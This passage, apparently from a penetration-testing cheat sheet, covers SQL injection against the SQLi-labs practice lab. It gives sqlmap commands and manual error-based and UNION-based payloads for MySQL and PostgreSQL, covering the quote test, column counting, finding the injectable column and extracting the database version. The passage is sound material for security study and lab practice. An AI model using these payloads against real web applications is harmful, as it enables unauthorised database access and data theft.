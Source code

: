 ```text
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```

You can also use a file like with the post request:

```text
./sqlmap.py -r post-request.txt -p uname
```

#### Bare Hands

**GET**

**Error-Based**

**Simple test**

`Adding a simpe quote '`

Example:

```text
http://192.168.1.104/Less-1/?id=5'
```

**Fuzzing**

Sorting columns to find maximum column

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

\(until it stop returning errors\)

**Finding what column is injectable**

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`

\(using the same amount of columns you got on the previous step\)

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

\(using the same amount of columns you got on the previous step\)

 one of the columns will be printed with the respective number

**Finding version**

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()`

**Finding database name**
